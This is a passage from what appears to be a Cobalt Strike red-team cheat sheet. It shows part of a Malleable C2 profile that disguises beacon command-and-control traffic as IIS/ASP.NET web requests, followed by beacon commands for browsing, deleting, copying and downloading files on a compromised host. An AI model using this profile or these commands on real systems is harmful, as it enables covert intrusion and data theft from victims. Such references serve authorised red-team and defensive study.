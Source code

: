 ```powershell
        header "Server" "Microsoft-IIS/6.0";
        header "X-Powered-By" "ASP.NET";
        output {
            base64;
            print;
        }
    }
}

http-post {
    set uri "/history/";
    client {
        header "Content-Type" "application/octet-stream";
        header "Referer" "http://www.google.com";
        header "Pragma" "no-cache";
        header "Cache-Control" "no-cache";
        id {
            netbiosu;
            append ".asp";
            uri-append;
        }
        output {
            base64;
            print;
        }
    }

    server {
        header "Content-Type" "img/jpg";
        header "Server" "Microsoft-IIS/6.0";
        header "X-Powered-By" "ASP.NET";
        output {
            base64;
            print;
        }
    }
}
```


## Files

```powershell
# List the file on the specified directory
beacon > ls <C:\Path>

# Change into the specified working directory
beacon > cd [directory]

# Delete a file\folder
beacon > rm [file\folder]

# File copy
beacon > cp [src] [dest]

# Download a file from the path on the Beacon host
beacon > download [C:\filePath]

# Lists downloads in progress
beacon > downloads

# Cancel a download currently in progress
beacon > cancel [*file*]
```
